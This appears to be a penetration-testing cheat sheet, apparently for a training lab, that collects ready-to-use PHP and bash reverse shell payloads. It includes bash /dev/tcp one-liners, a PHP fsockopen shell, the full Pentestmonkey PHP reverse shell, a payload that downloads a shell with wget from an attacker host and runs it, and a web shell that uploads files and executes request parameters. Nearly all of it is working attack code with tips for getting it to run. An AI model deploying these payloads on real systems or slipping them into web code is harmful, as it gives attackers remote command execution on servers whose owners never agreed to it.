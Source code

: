 <u>Linux Reverse Shell</u>

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.37/8000 0>&1'");?>

# If the code above doesn't work, try it without the &
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.37/8000 0>&1'");?>
```

<u>PHP from CLI</u>

```bash
php -r '$sock=fsockopen("10.10.14.37",8002);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```

<u>Linux PHP Shell Single Quotes (Pentestmonkey Script One-Liner)</u>

```php
<?php set_time_limit (0); $VERSION = "1.0"; $ip = "10.10.14.37"; $port = 8000; $chunk_size = 1400; $write_a = null; $error_a = null; $shell = "uname -a; w; id; /bin/bash -i"; $daemon = 0; $debug = 0; if (function_exists("pcntl_fork")) { $pid = pcntl_fork(); if ($pid == -1) { printit("ERROR: Cannot fork"); exit(1); } if ($pid) { exit(0); } if (posix_setsid() == -1) { printit("Error: Cannot setsid()"); exit(1); } $daemon = 1; } else { printit("WARNING: Failed to daemonise.  This is quite common and not fatal."); } chdir("/"); umask(0); $sock = fsockopen($ip, $port, $errno, $errstr, 30); if (!$sock) { printit("$errstr ($errno)"); exit(1); } $descriptorspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")); $process = proc_open($shell, $descriptorspec, $pipes); if (!is_resource($process)) { printit("ERROR: Cannot spawn shell"); exit(1); } stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0); printit("Successfully opened reverse shell to $ip:$port"); while (1) { if (feof($sock)) { printit("ERROR: Shell connection terminated"); break; } if (feof($pipes[1])) { printit("ERROR: Shell process terminated"); break; } $read_a = array($sock, $pipes[1], $pipes[2]); $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null); if (in_array($sock, $read_a)) { if ($debug) printit("SOCK READ"); $input = fread($sock, $chunk_size); if ($debug) printit("SOCK: $input"); fwrite($pipes[0], $input); } if (in_array($pipes[1], $read_a)) { if ($debug) printit("STDOUT READ"); $input = fread($pipes[1], $chunk_size); if ($debug) printit("STDOUT: $input"); fwrite($sock, $input); } if (in_array($pipes[2], $read_a)) { if ($debug) printit("STDERR READ"); $input = fread($pipes[2], $chunk_size); if ($debug) printit("STDERR: $input"); fwrite($sock, $input); } } fclose($sock); fclose($pipes[0]); fclose($pipes[1]); fclose($pipes[2]); proc_close($process); function printit ($string) {  if (!$daemon) { print "$string\n"; } } ?>
```

<u>PHP via remote code</u>

If you are unable to load a full shell into a field, you can use this code to download a shell from your webserver to /tmp/shell.php on the server and execute it using php:

```php
<?php system("wget http://10.10.14.14/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>
```

<u>Upload and Execute Code (Windows Friendly)</u>

Uploading this code creates two functions, an upload and execute:

```php
<?php if (isset($_REQUEST['fupload'])) {
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.37:80/" . $_REQUEST['fupload']));
};

if (isset($_REQUEST['fexec'])) {
  echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>
```
